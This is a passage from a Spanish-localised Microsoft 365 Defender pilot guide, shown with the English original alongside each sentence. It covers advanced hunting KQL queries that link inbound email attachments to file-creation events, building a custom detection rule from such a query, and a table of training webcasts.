    <span data-ttu-id="e14e9-336">La tabla resultante ahora incluye detalles del extremo (Microsoft defender para EndPoint), como el nombre del dispositivo, la acción que se ha realizado (en este caso, filtrada para incluir solo eventos FileCreated) y dónde se ha guardado el archivo.</span><span class="sxs-lookup"><span data-stu-id="e14e9-336">The resulting table now includes details from the endpoint (Microsoft Defender for Endpoint) such as device name, what action was done (in this case, filtered to only include FileCreated events), and where the file was stored.</span></span> <span data-ttu-id="e14e9-337">También se incluirá el nombre de cuenta asociado con el proceso.</span><span class="sxs-lookup"><span data-stu-id="e14e9-337">The account name associated with the process will also be included.</span></span>

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId 
    | join DeviceFileEvents on SHA256 
    | where ActionType == "FileCreated"
    ```

<span data-ttu-id="e14e9-338">Ya ha creado una consulta que identificará todos los correos electrónicos entrantes en los que el usuario abrió o guardó los datos adjuntos.</span><span class="sxs-lookup"><span data-stu-id="e14e9-338">You've now created a query that'll identify all inbound emails where the user opened or saved the attachment.</span></span> <span data-ttu-id="e14e9-339">También puede afinar esta consulta para filtrar los dominios de remitentes específicos, los tamaños de archivo, los tipos de archivo, etc.</span><span class="sxs-lookup"><span data-stu-id="e14e9-339">You can also refine this query to filter for specific sender domains, file sizes, file types, and so on.</span></span>

7.  <span data-ttu-id="e14e9-340">Las funciones son un tipo especial de combinación que permite extraer más datos de TI de un archivo, como la prevalencia, el firmante y la información del emisor, etc.  Para obtener más detalles sobre el archivo, use la función **FileProfile ()** enriquecimiento:</span><span class="sxs-lookup"><span data-stu-id="e14e9-340">Functions are a special kind of join, which let you pull more TI data about a file like its prevalence, signer and issuer info, etc.  To get more details on the file, use the **FileProfile()** function enrichment:</span></span>

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256 
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```


<span data-ttu-id="e14e9-341">**Crear una detección**</span><span class="sxs-lookup"><span data-stu-id="e14e9-341">**Create a detection**</span></span>

<span data-ttu-id="e14e9-342">Una vez que haya creado una consulta que identifique la información a la que le gustaría recibir una **alerta** si se produce en el futuro, puede crear una detección personalizada desde la consulta.</span><span class="sxs-lookup"><span data-stu-id="e14e9-342">Once you have created a query that identifies information that you'd like to **get alerted** about if they happen in the future, you can create a custom detection from the query.</span></span> 

<span data-ttu-id="e14e9-343">Las detecciones personalizadas ejecutarán la consulta según la frecuencia que haya establecido y los resultados de las consultas crearán alertas de seguridad, en función de los activos afectados que elija.</span><span class="sxs-lookup"><span data-stu-id="e14e9-343">Custom detections will run the query according to the frequency you set, and the results of the queries will create security alerts, based on the impacted assets you choose.</span></span> <span data-ttu-id="e14e9-344">Esas alertas se correlacionarán con incidentes y se pueden clasificar como cualquier otra alerta de seguridad generada por uno de los productos.</span><span class="sxs-lookup"><span data-stu-id="e14e9-344">Those alerts will be correlated to incidents and can be triaged as any other security alert generated by one of the products.</span></span>

1.  <span data-ttu-id="e14e9-345">En la página consulta, elimine las líneas 7 y 8 que se agregaron en el paso 7 de las instrucciones Go de búsqueda y haga clic en **crear regla de detección**.</span><span class="sxs-lookup"><span data-stu-id="e14e9-345">On the query page, remove lines 7 and 8 that were added in step 7 of the Go hunting instructions and click **Create detection rule**.</span></span> 
    
     

    > [!NOTE]
    > <span data-ttu-id="e14e9-347">Si hace clic en **crear regla de detección** y tiene errores de sintaxis en la consulta, la regla de detección no se guardará.</span><span class="sxs-lookup"><span data-stu-id="e14e9-347">If you click **Create detection rule** and you have syntax errors in your query, your detection rule won’t be saved.</span></span> <span data-ttu-id="e14e9-348">Compruebe la consulta para asegurarse de que no haya errores.</span><span class="sxs-lookup"><span data-stu-id="e14e9-348">Double-check your query to ensure there’s no errors.</span></span> 


2.  <span data-ttu-id="e14e9-349">Rellene los campos obligatorios con la información que permitirá que el equipo de seguridad comprenda la alerta, por qué se generó y qué acciones espera que realicen.</span><span class="sxs-lookup"><span data-stu-id="e14e9-349">Fill in the required fields with the  information that will allow the security team to understand the alert, why it was generated, and what actions you expect them to take.</span></span> 

    

    <span data-ttu-id="e14e9-351">Asegúrese de rellenar los campos con claridad para ayudar al siguiente usuario una decisión informada sobre esta alerta de regla de detección.</span><span class="sxs-lookup"><span data-stu-id="e14e9-351">Ensure that you fill out the fields with clarity to help give the next user an informed decision about this detection rule alert</span></span> 

3.  <span data-ttu-id="e14e9-352">Seleccione qué entidades se ven afectadas en esta alerta.</span><span class="sxs-lookup"><span data-stu-id="e14e9-352">Select what entities are impacted in this alert.</span></span> <span data-ttu-id="e14e9-353">En este caso, seleccione **dispositivo** y **buzón**.</span><span class="sxs-lookup"><span data-stu-id="e14e9-353">In this case, select **Device** and **Mailbox**.</span></span>

    
 

4.  <span data-ttu-id="e14e9-355">Determine qué acciones se deben realizar si se activa la alerta.</span><span class="sxs-lookup"><span data-stu-id="e14e9-355">Determine what actions should take place if the alert is triggered.</span></span> <span data-ttu-id="e14e9-356">En este caso, ejecute un análisis de antivirus, aunque se pueden realizar otras acciones.</span><span class="sxs-lookup"><span data-stu-id="e14e9-356">In this case, run an antivirus scan, though other actions could be taken.</span></span> 

     

5.  <span data-ttu-id="e14e9-358">Seleccione el ámbito de la regla de alertas.</span><span class="sxs-lookup"><span data-stu-id="e14e9-358">Select the scope for the alert rule.</span></span> <span data-ttu-id="e14e9-359">Como esta consulta implica dispositivos, los grupos de dispositivos son relevantes en esta detección personalizada de acuerdo con Microsoft defender para el contexto de extremo.</span><span class="sxs-lookup"><span data-stu-id="e14e9-359">Since this query involve devices, the device groups are relevant in this custom detection according to Microsoft Defender for Endpoint context.</span></span> <span data-ttu-id="e14e9-360">Al crear una detección personalizada que no incluye los dispositivos como entidades afectadas, no se aplica el ámbito.</span><span class="sxs-lookup"><span data-stu-id="e14e9-360">When creating a custom detection that does not include devices as impacted entities, scope does not apply.</span></span>  

     

    <span data-ttu-id="e14e9-362">Para esta prueba piloto, es posible que quiera limitar esta regla a un subconjunto de dispositivos de prueba en su entorno de producción.</span><span class="sxs-lookup"><span data-stu-id="e14e9-362">For this pilot, you might want to limit this rule to a subset of testing devices in your production environment.</span></span>

6.  <span data-ttu-id="e14e9-363">Seleccione **Crear**.</span><span class="sxs-lookup"><span data-stu-id="e14e9-363">Select **Create**.</span></span> <span data-ttu-id="e14e9-364">A continuación, seleccione **reglas de detección personalizadas** en el panel de navegación.</span><span class="sxs-lookup"><span data-stu-id="e14e9-364">Then, select **Custom detection rules** from the navigation panel.</span></span>
 
     

     

    <span data-ttu-id="e14e9-367">En esta página, puede seleccionar la regla de detección, que abrirá una página de detalles.</span><span class="sxs-lookup"><span data-stu-id="e14e9-367">From this page, you can select the detection rule, which will open a details page.</span></span> 

     

### <a name="additional-advanced-hunting-walk-through-exercises"></a><span data-ttu-id="e14e9-369">Ejercicios adicionales tutoriales de búsqueda avanzada</span><span class="sxs-lookup"><span data-stu-id="e14e9-369">Additional advanced hunting walk-through exercises</span></span>

<span data-ttu-id="e14e9-370">Para obtener más información acerca de la búsqueda avanzada, las siguientes difusiones Web le guiarán a través de las capacidades de la búsqueda avanzada en Microsoft 365 defender para crear consultas entre el pilar, dinamizar en entidades y crear detecciones personalizadas y acciones de corrección.</span><span class="sxs-lookup"><span data-stu-id="e14e9-370">To learn more about advanced hunting, the following webcasts will walk you through the capabilities of advanced hunting within Microsoft 365 Defender to create cross-pillar queries, pivot to entities and create custom detections and remediation actions.</span></span>

>[!NOTE]
><span data-ttu-id="e14e9-371">Prepárese con su propia cuenta de GitHub para ejecutar las consultas de la caza en el entorno del laboratorio de pruebas piloto.</span><span class="sxs-lookup"><span data-stu-id="e14e9-371">Be prepared with your own GitHub account to run the hunting queries in your pilot test lab environment.</span></span>  

|  <span data-ttu-id="e14e9-372">El título</span><span class="sxs-lookup"><span data-stu-id="e14e9-372">Title</span></span>  |  <span data-ttu-id="e14e9-373">Descripción</span><span class="sxs-lookup"><span data-stu-id="e14e9-373">Description</span></span>  |  <span data-ttu-id="e14e9-374">Descargar MP4</span><span class="sxs-lookup"><span data-stu-id="e14e9-374">Download MP4</span></span>  |  <span data-ttu-id="e14e9-375">Ver en YouTube</span><span class="sxs-lookup"><span data-stu-id="e14e9-375">Watch on YouTube</span></span>  |  <span data-ttu-id="e14e9-376">CSL archivo que usar</span><span class="sxs-lookup"><span data-stu-id="e14e9-376">CSL file to use</span></span>  |
|:-----|:-----|:-----|:-----|:-----|
| <span data-ttu-id="e14e9-377">Episodio 1: conceptos básicos de KQL</span><span class="sxs-lookup"><span data-stu-id="e14e9-377">Episode 1: KQL fundamentals</span></span> | <span data-ttu-id="e14e9-378">Trataremos los conceptos básicos de las funcionalidades de búsqueda avanzada en Microsoft 365 defender.</span><span class="sxs-lookup"><span data-stu-id="e14e9-378">We’ll cover the basics of advanced hunting capabilities in Microsoft 365 Defender.</span></span> <span data-ttu-id="e14e9-379">Obtenga información sobre los datos de búsqueda avanzada disponibles y la sintaxis y los operadores de KQL básicos.</span><span class="sxs-lookup"><span data-stu-id="e14e9-379">Learn about available advanced hunting data and basic KQL syntax and operators.</span></span> | [<span data-ttu-id="e14e9-380"> MP4</span><span class="sxs-lookup"><span data-stu-id="e14e9-380"> MP4</span></span>](https://aka.ms/MTP15JUL20_MP4) | [<span data-ttu-id="e14e9-381">YouTube</span><span class="sxs-lookup"><span data-stu-id="e14e9-381">YouTube</span></span>](https://youtu.be/0D9TkGjeJwM) | [<span data-ttu-id="e14e9-382">Episodio 1: archivo CSL en Git</span><span class="sxs-lookup"><span data-stu-id="e14e9-382">Episode 1: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl) |
| <span data-ttu-id="e14e9-383">Episodio 2: combinaciones</span><span class="sxs-lookup"><span data-stu-id="e14e9-383">Episode 2: Joins</span></span> | <span data-ttu-id="e14e9-384">Seguiremos aprendiendo sobre los datos de la búsqueda avanzada y cómo combinar tablas.</span><span class="sxs-lookup"><span data-stu-id="e14e9-384">We’ll continue learning about data in advanced hunting and how to join tables together.</span></span> <span data-ttu-id="e14e9-385">Obtenga información sobre las combinaciones internas, externas, únicas y semicombinadas, así como los matices del Kusto de innerunique predeterminado.</span><span class="sxs-lookup"><span data-stu-id="e14e9-385">Learn about inner, outer, unique, and semi joins, and the nuances of the default Kusto innerunique join.</span></span> | [<span data-ttu-id="e14e9-386">MP4</span><span class="sxs-lookup"><span data-stu-id="e14e9-386">MP4</span></span>](https://aka.ms/MTP22JUL20_MP4) | [<span data-ttu-id="e14e9-387">YouTube</span><span class="sxs-lookup"><span data-stu-id="e14e9-387">YouTube</span></span>](https://youtu.be/LMrO6K5TWOU) | [<span data-ttu-id="e14e9-388">Episodio 2: archivo CSL en Git</span><span class="sxs-lookup"><span data-stu-id="e14e9-388">Episode 2: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl) |
| <span data-ttu-id="e14e9-389">Episodio 3: resumir, dinamizar y visualizar datos</span><span class="sxs-lookup"><span data-stu-id="e14e9-389">Episode 3: Summarizing, pivoting, and visualizing data</span></span>|<span data-ttu-id="e14e9-390">Ahora que podemos filtrar, manipular y unir datos, es el momento de empezar a resumir, cuantificar, dinamizar y visualizar.</span><span class="sxs-lookup"><span data-stu-id="e14e9-390">Now that we’re able to filter, manipulate, and join data, it’s time to start summarizing, quantifying, pivoting, and visualizing.</span></span> <span data-ttu-id="e14e9-391">En este episodio, trataremos el operador de Resumen y algunos de los cálculos que puede realizar al profundizar en tablas adicionales en el esquema de búsqueda avanzada.</span><span class="sxs-lookup"><span data-stu-id="e14e9-391">In this episode, we’ll cover the summarize operator and some of the calculations you can perform while diving into additional tables in the advanced hunting schema.</span></span> <span data-ttu-id="e14e9-392">Los conjuntos de información se convierten en gráficos que pueden ayudar a mejorar el análisis.</span><span class="sxs-lookup"><span data-stu-id="e14e9-392">We turn our datasets into charts that can help improve analysis.</span></span> | [<span data-ttu-id="e14e9-393">MP4</span><span class="sxs-lookup"><span data-stu-id="e14e9-393">MP4</span></span>](https://aka.ms/MTP29JUL20_MP4) | [<span data-ttu-id="e14e9-394">YouTube</span><span class="sxs-lookup"><span data-stu-id="e14e9-394">YouTube</span></span>](https://youtu.be/UKnk9U1NH6Y) | [<span data-ttu-id="e14e9-395">Episodio 3: archivo CSL en Git</span><span class="sxs-lookup"><span data-stu-id="e14e9-395">Episode 3: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl) |
| <span data-ttu-id="e14e9-396">Episodio 4: ¡ vamos a buscar!</span><span class="sxs-lookup"><span data-stu-id="e14e9-396">Episode 4: Let’s hunt!</span></span> <span data-ttu-id="e14e9-397">Aplicación de KQL al seguimiento de incidentes</span><span class="sxs-lookup"><span data-stu-id="e14e9-397">Applying KQL to incident tracking</span></span>|<span data-ttu-id="e14e9-398">Tiempo para realizar un seguimiento de la actividad del atacante</span><span class="sxs-lookup"><span data-stu-id="e14e9-398">Time to track some attacker activity!</span></span> <span data-ttu-id="e14e9-399">En este episodio, usaremos nuestra mejor comprensión de KQL y la búsqueda avanzada en Microsoft 365 defender para realizar un seguimiento de un ataque.</span><span class="sxs-lookup"><span data-stu-id="e14e9-399">In this episode, we’ll use our improved understanding of KQL and advanced hunting in Microsoft 365 Defender to track an attack.</span></span> <span data-ttu-id="e14e9-400">Obtenga información sobre algunas de las sugerencias y trucos que se usan en el campo para realizar un seguimiento de la actividad de los intrusos, incluidos los ABC de Cybersecurity y cómo aplicarlos a la respuesta ante incidentes.</span><span class="sxs-lookup"><span data-stu-id="e14e9-400">Learn some of the tips and tricks used in the field to track attacker activity, including the ABCs of cybersecurity and how to apply them to incident response.</span></span> | [<span data-ttu-id="e14e9-401">MP4</span><span class="sxs-lookup"><span data-stu-id="e14e9-401">MP4</span></span>](https://aka.ms/MTP5AUG20_MP4) | [<span data-ttu-id="e14e9-402">YouTube</span><span class="sxs-lookup"><span data-stu-id="e14e9-402">YouTube</span></span>](https://youtu.be/2EUxOc_LNd8) | [<span data-ttu-id="e14e9-403">Episodio 4: archivo CSL en Git</span><span class="sxs-lookup"><span data-stu-id="e14e9-403">Episode 4: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl) |

## <a name="next-step"></a><span data-ttu-id="e14e9-404">Paso siguiente</span><span class="sxs-lookup"><span data-stu-id="e14e9-404">Next step</span></span>
|<span data-ttu-id="e14e9-405"></span><span class="sxs-lookup"><span data-stu-id="e14e9-405"></span></span> <br>[<span data-ttu-id="e14e9-406">Fase de cierre y Resumen</span><span class="sxs-lookup"><span data-stu-id="e14e9-406">Closing and summary phase</span></span>](mtp-pilot-close.md) | <span data-ttu-id="e14e9-407">Analice el resultado del piloto de Microsoft 365 defender, preséntela a las partes interesadas y realice el siguiente paso.</span><span class="sxs-lookup"><span data-stu-id="e14e9-407">Analyze your Microsoft 365 Defender pilot outcome, present them to your stakeholders, and take the next step.</span></span>
|:-----|:-----|

